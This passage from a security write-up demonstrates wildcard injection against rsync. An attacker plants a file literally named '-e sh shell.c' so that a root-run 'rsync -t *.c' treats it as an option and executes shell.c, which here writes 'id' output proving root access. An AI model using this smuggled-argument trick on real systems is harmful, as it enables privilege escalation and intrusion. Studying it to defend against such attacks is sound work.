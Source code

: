 ```
[root@defensecode public]# rsync -t *.c foo:src/
rsync: connection unexpectedly closed (0 bytes received so far) [sender]
rsync error: error in rsync protocol data stream (code 12) at io.c(601) [sender=3.0.8]
```

Let’s see what happened…

```
[root@defensecode public]# ls -al
total 76
drwxrwxrwx.  2 user user  4096 Mar 28 04:49 .
drwx———. 24 user user  4096 Oct 28 18:32 ..
-rwxr-xr-x.  1 user user 20480 Oct 28 19:13 admin.php
-rwxr-xr-x.  1 user user    34 Oct 28 17:47 ado.php
-rwxr-xr-x.  1 user user   187 Oct 28 17:44 db.php
-rwxr-xr-x.  1 user user   201 Oct 28 17:43 download.php
-rw-r———r———.  1 leon leon     0 Mar 28 04:45 -e sh shell.c
-rwxr-xr-x.  1 user user    43 Oct 28 17:35 file1.php
-rwxr-xr-x.  1 user user    56 Oct 28 17:47 footer.php
-rwxr-xr-x.  1 user user   357 Oct 28 17:36 global.php
-rwxr-xr-x.  1 user user   225 Oct 28 17:37 header.php
-rwxr-xr-x.  1 user user   117 Oct 28 17:36 inc.php
-rwxr-xr-x.  1 user user   111 Oct 28 17:38 index.php
-rwxr-xr-x.  1 user user    94 Oct 28 17:38 script.php
-rwxr-xr-x.  1 leon leon    31 Mar 28 04:45 shell.c
-rw-r—r—.  1 root root   101 Mar 28 04:49 shell_output.txt
```

There were two files owned by user ‘leon’, as listed below.

```
-rw-r—r—.  1 leon leon     0 Mar 28 04:45 -e sh shell.c
-rwxr-xr-x.  1 leon leon    31 Mar 28 04:45 shell.c
```

After ‘rsync’ execution, new file shell_output.txt whose owner is root 
is created in same directory.

```
-rw-r—r—.  1 root root   101 Mar 28 04:49 shell_output.txt
```

If we check its content, following data is found.

```
[root@defensecode public]# cat shell_output.txt
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

Trick is that because of the ‘*.c’ wildcard, ‘rsync’ got ‘-e sh shell.c’ option on command line, and shell.c will be executed upon ‘rsync’ start.
Content of shell.c is presented below.

```
[root@defensecode public]# cat shell.c
/usr/bin/id > shell_output.txt
```